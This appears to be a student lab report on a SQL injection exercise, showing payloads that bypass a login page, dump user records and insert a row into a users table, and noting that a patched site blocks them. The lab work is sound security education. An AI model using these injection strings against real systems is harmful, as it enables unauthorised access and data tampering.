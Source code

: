 ## Project 4 Report

### Task 1
- **Goal**: Impersonate an exitsting user without providing the password.
- Command use: `Cat'#` 
  - This command exploits the vulnerability of the SQL injection in the login page.
- The picture below show that the command `Cat'#` has been executed successfully.

![Task1](Graphic/Task1.png)

### Task 2
- Steal the user information from the database.
- Command use: `Cat' OR '1==1'#`
- The picture below show that the command `Cat' OR '1==1'#` has been executed successfully.

![Task2](Graphic/Task2_Database.png)
### Task 3
- Insert a new record into the table. The following picture have the code I use to insert a new record into the table. I pretend to be user **David** to insert a new record into user **cat**'s table.
- Command use:

```sql
David'; INSERT INTO users(first, uname, passwd, profile) VALUES('cat', 'cat', PASSWORD('cat'), 'Injection success')#
```
- The picture below show that the new record has been inserted successfully.

![Task3](Graphic/Task3_Injection.png)

- The picture below show the table after the new record has been inserted.

![Task3](Graphic/Task3_NewInfo.png)

### Task 4
- None of the attack shown above will work in the new website. Since the new website has been modified to prevent SQL injection attack. The following picture show that the command `Jacob'#` will not work in the new website.

![Task4](Graphic/Task4.png)